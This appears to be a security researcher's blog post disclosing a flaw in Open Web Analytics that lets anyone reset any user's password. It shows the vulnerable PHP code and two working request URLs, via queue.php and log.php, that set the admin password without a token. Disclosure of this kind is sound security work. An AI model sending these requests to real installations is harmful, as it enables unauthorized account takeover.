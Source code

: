 ```yaml
---
layout: post
title: "Resetting any user's password in Open Web Analytics with a single request"
thumbnail: sheep-480.jpg
date: 2025-07-09
---
```


Open Web Analytics (OWA) is a web app that tracks website visitors. I discovered a simple way to reset any user's password, by simply requesting a URL.

## Introduction

OWA is a PHP application that has all of its files in the webroot and does not use a well-known framework, which makes it a good candidate to find vulnerabilities. I recently did a [Hack the Box](https://www.hackthebox.com/) exercise where the goal was to exploit [a vulnerability](https://devel0pment.de/?p=2494) in OWA. This gave the final push to seriously look into it.

OWA has typical password reset functionality that stores a random token in the database and mails it to the user. The password reset form authenticates the user with the token and resets the password if it matches. OWA calls the password reset token the "temp pass key", and it is generated using a predictable method, which lacks cryptographic randomness:

```php
function generateTempPasskey($user_id) {
    return md5($user_id.time().rand());
}
```

The values of `$user_id`, `time()` and `rand()` can be deduced, after which an attacker can create their own password reset token.

When looking how to exploit this, I figured out how the password reset mechanism worked and found a much simpler vulnerability.

## Password reset vulnerability

The application accepts a password reset event with only the user ID, completely bypassing the need for a reset token.

When a user wants to reset their password, they request a password reset email, receive a link with the password reset token, click the link and submits a new password. Then:

1. the new password and reset token are submitted to the application.
2. the application verifies the password reset token.
3. if it matches, it dispatches an event to set a new password for this user.
4. the event handler actually updates the password row in the database.

The event handler doesn't necessarily need the password reset token. It is also happy when given just the user ID:

```php
public function updateUserPassword($user_params)
{
    $u = owa_coreAPI::entityFactory('base.user');

    if (!isset($user_params['temp_passkey']) && !isset($user_params['user_id'])) {
        owa_coreAPI::error( "No user identification given!" );
        return false;
    }

    if (isset($user_params['temp_passkey'])) {
        $u->getByColumn('temp_passkey', $user_params['temp_passkey']);
    }

    if (isset($user_params['user_id'])) {
        $u->getByColumn('user_id', $user_params['user_id']);
    }

    $u->set('temp_passkey', $u->generateTempPasskey($user_params['user_id']));
    $u->set('password', owa_lib::encryptPassword($user_params['password']));
    $ret = $u->update();

    return $ret ? $u : false;
}
```

The normal flow first checks the password reset token and then dispatches the event. However, we can also dispatch such an event ourselves, through queue.php or log.php. This bypasses step 1 and 2 in the flow, and thus bypasses the first check on the password reset token. By including a user ID instead of a password reset token in the event, we also bypass the second check on the password reset token. So by dispatching an event and including a user ID and omitting the password reset token, we can reset any user's password. Requesting one of the URLs below set the password of user `admin` to `abc`:

```
queue.php?owa_event[eventType]=base.set_password&owa_event[properties][user_id]=admin&owa_event[properties][password]=abc&owa_event[properties][key]=

log.php?owa_event_type=base.set_password&owa_user_id=admin&owa_password=abc&owa_key=
```

## Conclusion

Instead of setting the password directly, the password reset uses a generic event mechanism. That event mechanism is also used for tracking user events, and it is thus possible to trigger any event by simply requesting an URL. This makes it possible to reset the password of any user.

## Read more

- [From Single / Double Quote Confusion To RCE (CVE-2022-24637) – devel0pment.de](https://devel0pment.de/?p=2494)

## Technical details

The password reset mechanism works through these classes/methods:

- the new password and the reset token are submitted to `index.php?owa_do=base.usersPasswordEntry`, along with a parameter `owa_action=base.usersChangePassword`.
- `owa_usersChangePasswordController` verifies the password reset token.
- If it matches, it creates a `base.set_password` event to reset the user's password.
- The event triggers `owa_usersSetPasswordController` (through `owa_userHandlers`).
- This calls `owa_userManager::updateUserPassword`, which actually updates the password row in the database.
